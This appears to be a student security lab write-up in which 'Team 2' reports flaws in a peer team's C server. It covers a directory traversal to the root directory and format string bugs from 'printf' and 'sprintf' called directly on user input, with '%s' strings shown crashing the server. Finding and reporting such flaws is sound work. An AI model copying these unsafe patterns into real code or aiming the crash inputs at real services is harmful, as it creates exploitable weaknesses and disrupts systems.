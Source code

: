 ## Team 2

### Directory Traversal

* We can directly cd into root directory.

```
cd $/
Message: Working directory changed!

ls
total 96
drwxr-xr-x   2 root root  12288 Mar 13 05:08 bin
drwxr-xr-x   4 root root   4096 Mar  6 05:10 boot
drwxr-xr-x  21 root root   4500 Mar 15 08:50 dev
drwxr-xr-x 136 root root  12288 Mar 20 05:10 etc
drwxr-xr-x   2 root root   4096 Apr 12  2016 home
drwxr-xr-x   2 root root      0 Mar 26 18:14 homes
lrwxrwxrwx   1 root root     32 Aug 31  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  18 root root   4096 Feb 22 10:53 lib
drwxr-xr-x   2 root root   4096 Jan 23 05:09 lib64
drwx------   2 root root  16384 Aug 31  2017 lost+found
drwxr-xr-x   3 root root   4096 Aug 31  2017 media
...
```

### Format string

* All commands sent by the user are printed first. So we can crash the server by sending a bunch of %s. 
```C
n = read(sock_id_new,internal,sizeof(internal));
printf(internal);
```
```
Client:

%s%s%s%s%s%s%s%s
Error: read failed!
mc02 63 $

Server:

mc02 73 $ ./server 
Segmentation fault (core dumped)
mc02 74 $
```

* The server when starting up, takes a few arguments which are not used. But these arguments are copied using an snprintf command.
```C
char givenArgs[10];
for(int i=1; i<argc; i++)
{
  if(strlen(argv[i]) < 10) 
  {
    sprintf(givenArgs,argv[i]);					
  }
      
      
mc02 75 $ ./server %s%s%s%s
Segmentation fault (core dumped)
mc02 76 $
```
